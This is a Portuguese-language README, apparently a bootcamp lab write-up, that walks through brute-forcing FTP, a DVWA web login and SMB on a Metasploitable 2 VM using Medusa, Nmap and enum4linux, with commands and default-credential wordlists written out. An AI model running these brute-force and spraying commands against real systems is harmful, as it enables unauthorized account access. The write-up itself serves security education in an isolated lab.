



# 🛡️ Laboratório de Pentest: Brute Force com Medusa e Kali Linux


> **Desafio de Projeto:** Simulando um Ataque de Brute Force de Senhas  
> **Bootcamp:** Cibersegurança - Santander Open Academy | **DIO** > **Orientadora:** Isadora Ferrão, PhD

---

## 📑 Índice
- [📍 Sobre o Projeto](#-sobre-o-projeto)
- [🛠️ Ferramentas e Ambiente](#-ferramentas-e-ambiente)
- [⚙️ Preparação e Reconhecimento](#-preparação-e-reconhecimento)
- [🚀 Execução dos Testes](#-execução-dos-testes)
    - [Fase 1: Ataque FTP (Porta 21)](#fase-1-ataque-ftp-porta-21)
    - [Fase 2: Ataque Web / DVWA (Porta 80)](#fase-2-ataque-web--dvwa-porta-80)
    - [Fase 3: Enumeração e Ataque SMB (Portas 139/445)](#fase-3-enumeração-e-ataque-smb-portas-139445)
- [🔒 Conclusões](#-conclusões)
- [⚠️ Disclaimer](#-disclaimer)

---

## 📍 Sobre o Projeto

Este repositório documenta a execução de um laboratório prático de **Segurança Ofensiva (Ethical Hacking)**. O objetivo foi configurar um ambiente controlado para simular ataques de força bruta (Brute Force) utilizando a ferramenta **Medusa** contra diferentes protocolos de rede, visando compreender a importância de senhas complexas e a eficácia da enumeração de serviços.

---

## 🛠️ Ferramentas e Ambiente

| Recurso | Descrição |
| :--- | :--- |
| **VirtualBox** | Hypervisor para criar o laboratório virtual isolado. |
| **Kali Linux** | Sistema Operacional do Atacante (IP: `192.168.56.102`). |
| **Metasploitable 2** | Máquina Vítima, intencionalmente vulnerável (IP: `192.168.56.101`). |
| **Medusa** | Ferramenta principal de força bruta modular e paralela. |
| **Nmap** | Utilizado para varredura de portas e serviços. |
| **Enum4Linux** | Utilizado para enumeração específica de compartilhamentos SMB. |

---

## ⚙️ Preparação e Reconhecimento

Antes de iniciar os ataques, realizamos a verificação de conectividade, varredura de portas e criação das listas de senhas iniciais.

### 1. Verificação de Conectividade
```bash
ping -c 3 192.168.56.101
````

### 2\. Varredura de Portas (Nmap)

Focamos nas portas essenciais para o laboratório: FTP (21), SSH (22), HTTP (80) e SMB (139, 445).

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.101
```

### 3\. Criação das Wordlists Gerais

Para os testes iniciais, criamos listas pequenas com credenciais padrão.

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

-----

## 🚀 Execução dos Testes

### Fase 1: Ataque FTP (Porta 21)

O primeiro teste visou o serviço de transferência de arquivos, utilizando a flag `-t 6` para definir o número de tentativas simultâneas.

**Comando de Ataque:**

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

**Validação do Acesso:**
Após encontrar as credenciais (`msfadmin:msfadmin`), confirmamos o acesso via cliente FTP:

```bash
ftp 192.168.56.101
```

> **Resultado da Fase 1:**
> <div align="center"><p><em>Credenciais msfadmin:msfadmin encontradas no serviço FTP.</em></p></div>

-----

### Fase 2: Ataque Web / DVWA (Porta 80)

O objetivo foi testar o login na aplicação **DVWA**. Utilizamos o "Dev Tools" do navegador para inspecionar a rede e entender os parâmetros do formulário (`username`, `password`, `Login`).

**Comando de Ataque:**

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

> **Resultado da Fase 2:**
> <div align="center"><p><em>Login encontrado no DVWA.</em></p></div>

-----

### Fase 3: Enumeração e Ataque SMB (Portas 139/445)

Nesta fase, avançamos para uma técnica mais sofisticada: primeiro enumeramos os usuários reais do sistema e depois focamos o ataque neles (Password Spraying).

**1. Enumeração de Usuários (Enum4Linux):**
Utilizamos o `enum4linux` para extrair informações do alvo e salvamos a saída.

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
less enum4_output.txt
```

**2. Criação de Wordlists Específicas:**
Com base na enumeração, criamos listas focadas no serviço SMB.

```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt
```

**3. Ataque SMB (Medusa):**
Executamos o ataque usando o módulo `smbnt`.

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

> **Resultado da Fase 3:**
> <div align="center"><p><em>Medusa encontra as credenciais de login para o serviço FTP.</em></p></div>

-----

## 🔒 Conclusões

A execução deste laboratório reforçou a necessidade de:

1.  **Enumeração é Chave:** Ferramentas como `enum4linux` expõem usuários válidos, facilitando muito o ataque de força bruta. Bloquear enumeração anônima é essencial.
2.  **Evitar Senhas Padrão:** O ataque explorou com sucesso credenciais default (`msfadmin`, `service`).
3.  **Complexidade:** Wordlists simples quebraram a segurança em segundos.

-----

## ⚠️ Disclaimer

> Este projeto foi desenvolvido para fins estritamente **educacionais** como parte do Bootcamp da DIO. Todas as ações foram realizadas em um ambiente de laboratório virtual isolado.
>
> **A tentativa de acesso não autorizado a sistemas reais é crime.**

-----

## 📫 Contato

  * Email: **jorge.paiv4@gmail.com**
  * LinkedIn: [Linkedin](https://www.linkedin.com/in/jorge-henrique-16b567263/)
